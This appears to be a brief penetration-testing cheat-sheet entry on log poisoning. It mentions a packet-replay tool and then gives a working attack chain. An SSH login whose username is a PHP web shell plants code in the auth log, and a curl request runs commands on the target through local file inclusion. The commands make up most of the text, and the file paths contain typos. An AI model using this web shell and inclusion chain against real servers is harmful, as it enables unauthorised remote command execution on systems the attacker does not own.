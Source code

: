 # Log Poisoning



**Colasoft** **Packet Player**

Is a packet replayer which allows users to open captured packet trace files and play them back in the network

Can replay fake traffic into a connected network.

http://www.colasoft.com/packet\_player/



**Scenario:**

Ports 22 & 80

can view /var/log.auth.log on port 80

```
ssh "<?php echo system($_GET['cmd']);?>"@TARGETIPADDRESS
```

Call the webshell through the viewable log with in this case is viewable by LFI

Below view working directory, current user and lists contents of directory

```
curl 'http://TARGETIPADDRESS/index.php?file=%2fcar%2flog%2fauth.log&cmd=pwd;id;ls%20-lah'
```



